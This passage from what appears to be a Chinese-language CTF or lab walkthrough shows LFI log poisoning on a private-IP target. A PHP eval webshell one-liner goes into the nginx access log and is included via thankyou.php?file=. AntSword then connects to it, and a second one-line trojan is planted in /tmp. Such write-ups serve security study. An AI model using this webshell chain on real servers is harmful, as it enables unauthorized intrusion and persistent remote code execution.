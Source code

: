 
<img src="https://img-blog.csdnimg.cn/416ad62b4dc546cd8cc47347e19e9528.png" alt="在这里插入图片描述">

#### 2.写入webshell

>  
 采用&lt;?php @eval($_REQUEST[powershell])?&gt;替换上面的&lt;?php phpinfo();?&gt;就OK。 


```
GET &lt;?php @eval($_REQUEST[powershell])?&gt; HTTP/1.1

```

<img src="https://img-blog.csdnimg.cn/adb6de2eec7a4dacb101566360122d7f.png" alt="在这里插入图片描述">

#### 3.蚁剑成功连接webshell

>  
 输入url和密码 


```
http://192.168.233.184/thankyou.php?file=/var/log/nginx/access.log
Powershell

```

>  
 点击右上角测试连接，发现连接成功 


<img src="https://img-blog.csdnimg.cn/98be67d2e0f34d4992621ca477b84cd2.png" alt="在这里插入图片描述">

>  
 点击左上角的添加数据 


<img src="https://img-blog.csdnimg.cn/ea7e9fa73a8e40ad947f5dfa10ef608e.png" alt="在这里插入图片描述">

>  
 成功添加数据双击进入文件系统 


<img src="https://img-blog.csdnimg.cn/69b415f23bc04c40afe309b5c46be6bc.png" alt="在这里插入图片描述">

### 9、新建shell文件

>  
 可以在服务器/tmp目录下新建一个powershell.php文件，写入一句话木马并重新连接 


#### 1.创建powershell.php文件

>  
 右键在tmp目录下新建php文件，名称为powershell.php。 


<img src="https://img-blog.csdnimg.cn/0dfb5d1d13024de9906b8141b731dd2c.png" alt="在这里插入图片描述">
